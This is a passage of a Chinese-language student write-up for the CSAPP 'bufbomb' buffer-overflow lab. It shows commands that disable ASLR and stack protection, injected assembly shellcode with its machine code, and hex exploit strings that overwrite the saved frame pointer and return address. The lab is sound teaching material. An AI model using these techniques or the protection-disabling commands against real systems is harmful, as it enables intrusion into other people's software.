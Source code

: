 	```
	$ execstack -s bufbomb
	$ sysctl -w kernel.randomize_va_space=0
	```

	做下一题的时候也要用到上面两条命令。

*	Level3: Dynamite

	本题要求我们正常回到 `test()`, 但是将 `getbuf()` 的返回值设为我们的 `cookie=0x5fb97de9`, 同时维护好栈空间, 即要把 `$ebp` 写回原来的 `$saved_ebp`

	过程和上一题类似, 由于返回值保存在 `$eax` 中, 正常的返回地址是 `test()` 中的 `0x0804901e`, 所以我们可以写出如下汇编代码, 保存在 `dynamite.s` 中

	```asm
	movl $0x5fb97de9,%eax
	push $0x0804901e
	ret
	```

	接下来利用 `gcc` 和 `objdump` 得到机器码

	```
	$ gcc -m32 -c dynamite.s
	$ objdump -d dynamite.o > dynamiteobjdump.s
	$ cat dynamiteobjdump.s

	dynamite.o:     file format elf32-i386

	Disassembly of section .text:

	00000000 <.text>:
	   0:   b8 e9 7d b9 5f          mov    $0x5fb97de9,%eax
	   5:   68 1e 90 04 08          push   $0x804901e
	   a:   c3                      ret    
	```

	机器码一共 11 字节, 后面任意填充一个字节, 如 `00`, 然后写入 `$saved_ebp = 58 ba ff ff`, 最后将返回地址设置成 `buf` 的起始地址 `2c ba ff ff`

	> b8 e9 7d b9 5f 68 1e 90 04 08 c3 00 58 ba ff ff 2c ba ff ff

	<br>

##	实验结果截图

*	Level0: Candle

	exploit.txt

	> 00 00 00 00 00 00 00 00 00 00 00 00 58 ba ff ff 20 8e 04 08

	![candle](https://github.com/jJayyyyyyy/USTC-2018-Smester-1/blob/master/CSAPP/exp/lab03/assets/result1.png)

*	Level1: Sparkler

	exploit.txt

	> 00 00 00 00 00 00 00 00 00 00 00 00 58 ba ff ff c0 8d 04 08 00 00 00 00 e9 7d b9 5f
